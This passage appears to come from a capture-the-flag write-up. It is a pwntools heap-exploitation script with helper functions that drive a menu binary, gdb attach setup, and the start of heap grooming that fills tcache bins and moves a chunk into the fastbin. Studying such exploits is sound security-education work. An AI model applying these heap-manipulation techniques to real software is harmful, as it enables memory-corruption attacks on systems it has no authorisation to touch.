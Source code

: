 ``` python
            if index_list[_] == 0:
                index_list[_] = num
                index = _
                break
    hex_numbers = [hex(num)[2:].rjust(3) for num in index_list[0:16]]
    log.info(f"{', '.join(hex_numbers)} ; {op} {index}")

def buy(s, size):
    s.sendline(b"1")
    s.sendlineafter(b"much? ", str(size).encode())
    print_index("push", size)
    return s.recvuntil(b"> ")

def edit(s, index, name):
    s.sendline(b"2")
    s.sendlineafter(b"Index: ", str(index).encode())
    s.sendafter(b"Name: ", name)
    return s.recvuntil(b"> ")

def refund(s, index):
    s.sendline(b"3")
    s.sendlineafter(b"Index: ", str(index).encode())
    print_index("pop", index)
    return s.recvuntil(b"> ")

gs = f'''
!b *{bp["read_int_refund"]}
gef config gef.bruteforce_main_arena True
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main(server, port, debug):
    if(port):
        s = remote(server, port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY, sysroot="./")
        else:
            context.log_level = "ERROR"
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    s.recvuntil(b"> ").decode()

    # fill tcache 0x70
    for _ in range(8):
        buy(s, 0x60)
    for i in range(7):
        refund(s, i)
    buy(s, 0x3a0)           # index 0 ; align next chunk
    
    # 0x555555559650 chunk goes to fastbin
    refund(s, 7)

    # fill tcache 0x20
    for _ in range(9):
        buy(s, 0x10)
```